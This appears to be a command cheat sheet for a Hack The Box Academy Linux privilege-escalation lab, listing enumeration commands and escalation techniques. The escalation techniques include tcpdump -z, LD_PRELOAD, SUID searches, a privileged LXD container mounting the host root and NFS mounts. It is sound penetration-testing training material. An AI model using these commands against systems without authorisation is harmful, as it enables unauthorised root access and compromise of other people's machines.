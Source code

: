 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)

## Table of Contents



| **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ssh htb-student@<target IP>`                                                       | SSH to lab target                                     |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |
| `tmux -S /shareds new -s debugsess`                                                 | Created a shared `tmux` session socket                |
| `./lynis audit system`                                                              | Perform a system audit with `Lynis`                   |
